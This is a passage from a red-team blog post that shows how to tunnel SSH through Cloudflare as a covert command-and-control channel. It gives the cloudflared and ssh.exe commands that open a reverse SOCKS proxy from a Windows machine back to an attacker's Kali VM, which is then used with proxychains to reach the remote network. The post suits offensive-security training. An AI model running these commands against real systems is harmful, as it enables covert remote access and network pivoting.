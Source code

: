 The commands required to carry this out are quite simple. On your cloud VM like Kali, connect to your tunnel configured with the following command:

{% highlight powershell %}
cloudflared tunnel run --token YourTokenHere
{% endhighlight %}

If you need to know more about setting up Cloudflare tunnels please see my [previous blog post](https://www.redteaming.org/c2cloudflare.html) on how to set it up.

Then after starting the tunnel on Kali you can run this command on the Windows client to complete the tunnel.

{% highlight powershell %}
ssh.exe -o ProxyCommand="cloudflared.exe access ssh --hostname %h" david@ssh.redteaming.org -R 1080
{% endhighlight %}

This ssh command uses "cloudflared" to transport the data out but also opens up a reverse port forward and a socks proxy on 1080 back on Kali. Obviously at this point you also need a ssh client set up on your Kali VM. You could also use a ssh key file, use -f and -N to not execute commands and to lock down your ssh server so that the access is limited but for illustrative purposes I am just logging in to show you how it works.

Using proxychains pointed at port 1080 we can then access the remote machine as follows:

<img src="/assets/img/BSides7.jpg" width="200"/>

You may wonder what happens on the hostname side of things when I am using ssh.redteaming.org. All that happens there can be seen in the following image whereby any data hitting ssh.redteaming.org I redirect it into my port 22 of my Kali VM to allow the ssh traffic inbound.

<img src="/assets/img/BSides8.jpg" width="200"/>

For the eagle eyed amongst you it may have been spotted that I was using the in-built ssh which means that relying on a system having ssh breaks one of my 5 tests mentioned earlier.
